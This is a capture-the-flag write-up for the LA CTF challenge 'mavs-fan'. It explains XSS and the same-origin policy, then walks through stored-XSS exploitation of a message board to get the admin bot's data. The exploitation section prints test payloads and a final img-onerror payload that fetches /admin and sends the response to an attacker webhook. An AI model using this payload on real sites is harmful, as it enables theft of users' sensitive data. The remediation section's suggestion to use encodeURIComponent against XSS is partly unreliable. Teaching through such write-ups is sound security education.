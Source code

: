 # LA CTF: web/mavs-fan

## Context & Vulnerability

We are provided a website where users can write and post messages. We are also given an “Admin Bot” where we may input a URL to the post that we made, and the Admin Bot will visit the post. We are also given the site's files to analyze.

In the challenge description, we are told that “the admin cookie is HttpOnly”. 

Therefore, due to the setup where we can input a message and send a URL to the admin bot, plus the HttpOnly hint, this leads us to believe that our vulnerability might be cross-site scripting (XSS). This was confirmed by inserting the classic XSS test of alert() and getting valid feedback. Additionally, due to the HttpOnly hint, we can assume we will be dealing with cookies alongside XSS, and those two topics often do go together.

## Background Information: XSS

### What is XSS?

XSS is a vulnerability that allows attackers to compromise the interactions between users and a vulnerable application
This happens because an attacker will find a way around the same origin policy (SOP).

### What is SOP?

A site’s origin is a combination of its protocol (like http, https, etc.), hostname/domain (like google.com), and port of the URL accessing it. If two websites have all of these same aspects, then they are said to have the same origin.
        
Two websites can have the same origin even if they have different file paths: http://example.com/app1/index.html versus http://example.com/app2/index.html

Even if port numbers are not stated explicitly, using a protocol’s default port number can help identify if two websites have the same origin: http://example.com:80 versus http://example.com

When browsing, the browser loads data from many different websites that are likely to all come from different origins. The same origin policy prevents one website from reading the resources of a website from a different origin. 

A type of vulnerability that is related to this is clickjacking using iframes. This vulnerability will not be covered here.

So, a website won’t read resources from a website with a different origin. However, when we inject our malicious XSS script, the script runs as the same origin as the website we are injecting it into. Therefore, the browser will execute this malicious script because it sees it as from the same origin as the website it’s being inserted into. 

### What is the malicious thing we are injecting? And where are we injecting it?

The thing that will be injected is a piece of malicious JavaScript code. You can inject it wherever the website will take in input. 
Below there is an example of a simple way to detect if a XSS attack is possible.

### What can our malicious script do?
Our malicious script can do many things, but most of the time it will be revealing sensitive information on the victim user’s browser. For example, XSS can access the following data:
- Keystrokes 
- Redirection to malicious websites
- Cookie information: Cookies can contain information that an attacker can use to impersonate a user after a browsing session. For this CTF, we just need to know that we can get cookies information from XSS.
- Other web browser exploits

Side-note here: the script we are talking about can be very short. Most are only a couple of lines long.

Types of XSS:
- Stored/Persistent XSS: The malicious script will be saved in the website’s database. Example: a website has a place where users can post messages. A user can input a malicious script in place of a message. This message will get saved in the site’s database. When others see this person’s message on the website, the script will be executed.
- Reflected XSS: The malicious script will most likely be in a site’s URL. When others visit this website, the script will be executed. Example: https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>
- DOM-based XSS 

### How to see if a website is vulnerable to XSS

Try inserting basic JavaScript and seeing if you get a response. This was inserted into the message field where a user would normally input a message to post. The most popular is: <script>alert('testing for XSS…')</script>

### How to prevent XSS
- Filter input
- Encode data when it’s being outputted
- For HTTP responses, use the correct response headers
- For cookies, use HttpOnly: Recall that cookies can be accessed by using JavaScript in an XSS attack. Most web browsers don’t need to access cookies via JavaScript. Therefore, to protect cookies, you can use the HttpOnly flag to tell the browser to access the cookie through HTTP only. The HttpOnly flag is included in the HTTP response header: Set-Cookie: sessionid=QmFieWxvbiA1; HttpOnly

## Exploitation

We navigate to the page where we can input a message.

First we will try the classic XSS input to see if we can get execution through this area: <script>alert('testing for XSS…')</script>

We do not get an alert pop-up. Before, trying other payloads, let’s see how the HTML of the site looks after inputting the script:

The script got embedded into a div, and therefore it won’t execute. We may search for another payload that won’t just get lost in the HTML. Online, we find HTML-specific payloads which we can try. The first one: <img/src=x a='' onerror=alert(1)>

Indeed, when entered and submitted we got an alert pop-up and image saved.

As a comparison, we may also see what the HTML looks like. The HTML was actually embedded to execute the script. We also see Firefox’s addition of the “event”.
So now that we know we can achieve XSS, we need to see what we may enter to get our flag. Let’s see the file’s script app.js, which was given in the challenge’s zip file. We see the following lines that are of interest:

	app.get('/admin', (req, res) => {
    	if (!req.cookies.secret || req.cookies.secret !== ADMIN_SECRET) {
        		return res.redirect("/");
   	 	}
    	return res.json({ trade_plan: FLAG });
	});



This script tells us that if we go to the /admin path, we may get the flag only if this special cookie is enabled. If we don’t have this secret cookie, or if the cookies is not named ADMIN_SECRET, then we are redirected to the standard front page of the site. If we do meet these cookie requirements, then we get the flag. Thus, our goal now is to somehow meet these cookie requirements.

Recall our hint: “the admin cookie is HttpOnly”. This means we may not use JavaScript to access our cookie. And since we are on client-side and the cookie is protected by HttpOnly, we may not access the cookie. Remember that HttpOnly prevents the cookies from being affected by client-side scripts. Thus, we need to get our cookie data server-side.

Here are steps our XSS payload may follow to get our cookie:
1. Do something to trigger an error
2. When that error is triggered, deal with it by trying to visit /admin
3. Capture the response from visiting /admin
4. Because that response has valuable information that we can’t access (our admin cookies), send that data somewhere we could access it. One place we may send it is our own site. Webhooks may provide us with a website to do this with. Or, if running the site locally (localhost), then ngrok can work.
5. Once we send the data to our Webhooks site, we should see the cookie data there, which will give us our flag.

In JavaScript, our payload will look something like this (this is the specific solution provided by LA CTF):

	<img src="x" onerror="fetch('/admin').then(response => response.json()).then(data => {fetch('https://webhook.site/[custom_webhook_url]?data=' + encodeURIComponent(JSON.stringify(data)));});"/>

We may try to enter this into the message posting part of the website. We insert our malicious script successfully.

Now we may play the victim in the XSS scenario and visit the URL that the post gave us by inserting it into the admin bot. Then on our server we will see the flag.


## Remediation

One easy way to patch this kind of error is to sanitize input. You should make sure that whatever message is entered doesn’t include inputs like <>, for example. One function that may be useful is encodeURIComponent() (specifically for JavaScript). It will eliminate characters that aren't usually allowed in a URI (part of the URL).

# Sources/Credits

Written by Madalina Stoicov

- https://developer.mozilla.org/en-US/docs/Glossary/Origin
- https://web.dev/articles/same-origin-policy
- https://portswigger.net/web-security/cross-site-scripting#what-is-cross-site-scripting-xss
- https://www.veracode.com/security/xss/
- https://www.wiz.io/academy/cross-site-scripting-xss
- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
- https://www.invicti.com/learn/stored-xss-persistent-cross-site-scripting/
- https://owasp.org/www-community/attacks/Cross_Site_Tracing
- https://www.acunetix.com/blog/web-security-zone/httponly-flag-protecting-cookies/



